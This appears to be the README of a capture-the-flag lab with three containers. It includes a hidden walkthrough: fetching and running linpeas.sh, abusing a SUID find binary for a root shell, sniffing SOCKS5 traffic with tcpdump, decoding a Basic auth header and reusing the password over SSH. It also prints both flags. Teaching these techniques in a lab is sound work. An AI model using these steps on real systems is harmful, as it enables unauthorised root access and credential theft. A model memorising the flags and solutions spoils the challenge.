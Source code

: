 # Challenge template

This challenge is about privilege escalation and sniffing socks5 proxy traffic

The challenge starts 3 servers:

1. Server A (172.20.0.45)
    * simple HTTP server that represents some application
    * not very important 
2. Server B (172.20.0.47)
    * Running SSH server and Socks5 proxy
    * Students gets SSH credentials for restricted user
3. Server C (172.20.0.49)
    * Running SSH server and 
    * Periodically runs a script that sends HTTP login requests to the server A via the proxy in server B (represents victim's actions)
    * The credentials sent in the HTTP login requests are the same as credentials for the local SSH

### Tasks

1. First task is for student to escalate privileges to root in server B
2. When student has root access, (s)he should realize there is a socks5 proxy running and try to sniff traffic. There are credentials to server C in the traffic.

## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>

1. Connect to the server B with provided credentials from the description of the 1st task and run linpeas.sh

```bash
root@hackerlab:~# ssh bob@172.20.0.47
...
bob@a87a002f6fe0:~$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
...
bob@a87a002f6fe0:~$ chmod +x linpeas.sh 
bob@a87a002f6fe0:~$ ./linpeas.sh
...
```

The output should have a glowing yellow colour on find command in SUID bits section signalising it's very likely a priv esc opportunity
```bash
-rwsr-sr-x 1 root root 220K Jan  8  2023 /usr/bin/find
```

2. Find `find` tool in GTFO bins - https://gtfobins.github.io/gtfobins/find/
3. We can escalate privileges using command
```bash
bob@a87a002f6fe0:~$ find . -exec whoami \; -quit
root
```

4. Like this we can spawn a shell and read the filesystem to find the 1st flag
```bash
bob@a87a002f6fe0:~$ find . -exec bash -p \; -quit
bash-5.2# whoami
root
bash-5.2# ls /root
flag.txt
bash-5.2# cat /root/flag.txt
BSY{QQgCzB3HmryOC7aijBJfeylUYOzgMviOIkdBzlMmGYgJWoY4Sz21s3ZcIPiW}
```

5. Second task tells us to find out what is the system used for. In output of processes we see a lot `danted` keyword
```bash
bash-5.2# ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   3924  3040 ?        Ss   18:08   0:00 /bin/bash /opt/start.sh
root           8  0.0  0.0  28280  4536 ?        Ss   18:08   0:00 danted -f /etc/danted.conf -D
root           9  0.0  0.0  15428  9496 ?        S    18:08   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root          10  0.0  0.0  27984  4020 ?        S    18:08   0:00 danted: monitor-child
root        9501  0.0  0.0  17592 10936 ?        Ss   18:12   0:00 sshd: bob [priv]
bob         9508  0.0  0.0  17852  7092 ?        S    18:12   0:00 sshd: bob@pts/0
bob         9509  0.0  0.0   4188  3484 pts/0    Ss   18:12   0:00 -bash
root        9516  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9517  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9518  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9519  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9521  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9522  0.0  0.0  29736  5868 ?        S    18:12   0:00 danted: io-child: 0/32 (0 in
root        9523  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9526  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9529  0.0  0.0  28976  4888 ?        S    18:12   0:00 danted: negotiate-child: 0/9
root        9530  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9531  0.0  0.0  28808  4460 ?        S    18:12   0:00 danted: negotiate-child: 0/9
root        9532  0.0  0.0  28412  4168 ?        S    18:12   0:00 danted: request-child: 0/1
root        9533  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9534  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9535  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9536  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9537  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9538  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9540  0.0  0.0  28412  4168 ?        S    18:13   0:00 danted: request-child: 0/1
root        9541  0.0  0.0  29468  4804 ?        S    18:13   0:00 danted: io-child: 0/32 (0 in
root        9542  0.0  0.0   4616  1460 pts/0    S+   18:13   0:00 find . -exec ps aux ; -quit
root        9543  0.0  0.0   8088  3960 pts/0    R+   18:13   0:00 ps aux 
```
By googling the `danted` keyword students should realize it's a proxy. The task description also suggests someone is using the machine so someone might be using the proxy. Since
students are now root, they can try to sniff traffic

6. By sniffing the traffic we can see some HTTP traffic coming from IP `172.20.0.49`
```bash
bash-5.2# tcpdump -n -v -A not port 22
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:15:49.104586 IP (tos 0x0, ttl 64, id 5254, offset 0, flags [DF], proto TCP (6), length 220)
    172.20.0.49.42200 > 172.20.0.47.1080: Flags [P.], cksum 0x5957 (incorrect -> 0x799f), seq 15:183, ack 13, win 502, options [nop,nop,TS val 3800977738 ecr 2764428910], length 168
E.....@.@......1.../...8......
c....YW.....
..QJ...nPOST /login HTTP/1.1
Host: 172.20.0.45
User-Agent: curl/7.88.1
Accept: */*
Authorization: Basic YWRtaW46c3VwZXItc2VjcmV0LXBhc3N3b3JkLWNhbm5vdC1iZS1ndWVzc2VkCg==
 
```
7. There is Authorization header of Basic type (base64 encoded credentials). We can decode it to see the credentials
```
root@hackerlab:~# echo "YWRtaW46c3VwZXItc2VjcmV0LXBhc3N3b3JkLWNhbm5vdC1iZS1ndWVzc2VkCg==" | base64 -d
admin:super-secret-password-cannot-be-guessed
```

8. The `172.20.0.49` seems to have only SSH running
```bash
root@hackerlab:~# nmap 172.20.0.49
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-30 18:17 UTC
Nmap scan report for scl-challenge-victim.playground-net (172.20.0.49)
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:AC:14:00:31 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

9. Maybe someone is reusing passwords and the credentials could work for the SSH? Yes, that's correct.

```bash
root@hackerlab:~# ssh admin@172.20.0.49
admin@172.20.0.49 password: 
Linux 5249928d2b8f 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 30 18:19:33 2024 from 172.20.0.2

admin@5249928d2b8f:~$ ls
flag.txt

admin@5249928d2b8f:~$ cat flag.txt
BSY{THd8a6l0GCoRDpRThK9z1FnoEcl0y0cV8CTUGNBWwXHXAC5XDyNVqIP5mDHH}
```

Voilá, we found the 2nd flag! Congrats.

</details>

## Testing


The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.
